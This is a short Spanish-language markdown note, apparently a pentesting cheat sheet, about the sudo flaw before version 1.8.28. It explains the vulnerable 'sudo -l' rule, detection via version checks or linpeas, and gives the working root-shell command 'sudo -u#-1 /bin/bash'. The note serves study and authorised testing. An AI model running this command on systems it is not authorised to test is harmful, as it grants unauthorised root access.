 # A que afecta esta vulnerabilidad

- Sudo - Linux: versión de sudo menor que 1.8.28  
- Excepto: 1.8.28 y posteriores
# Que nos permite esta vulnerabilidad

- Nos permite elevar privilegios, siempre y cuando al hacer sudo -l  el resultado sea similar al siguiente: 

```bash
$> sudo -l

User reaper may run the following commands on Linux:
(ALL : !root) ALL
```

Aqui lo importante es: 

```bash
(ALL : !root) ALL
```


# Detección

1. 
- Revisar la versión de sudo manualmente y compararla con las versiones vulnerables:

```bash
sudo --version
```

2. 
- Usar una herramienta automatizada como linpeas o linux-exploit-suggester

# Explotación 

- Usar el siguiente comando

```bash
sudo -u#-1 /bin/bash
```

